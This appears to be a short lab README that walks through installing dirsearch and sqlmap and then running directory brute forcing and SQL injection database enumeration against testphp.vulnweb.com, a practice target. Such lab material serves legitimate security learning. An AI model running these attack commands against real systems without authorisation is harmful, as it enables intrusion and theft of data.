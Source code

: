 -
## STEP 1: Advance Linux Commands:

[image advanced command part 1](iamge.png)
[image advanced command part 2](image_1.png)

## STEP 2: Installing GitHub Tools

### dirsearch

```bash
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image installing dirsearch](image_2.png)

### SQLMap

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --version
```

[image installing sqlmap](image_3.png)

## **STEP 3: Launch Attacks on** **testphp.vulnweb.com**

### **Directory Brute Forcing via dirsearch**

```bash
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image diectoy brute force](image_4.png)

### SQL Injection via sqlmap

```bash
python3 sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs
```

[image dumping DB](image_5.png)
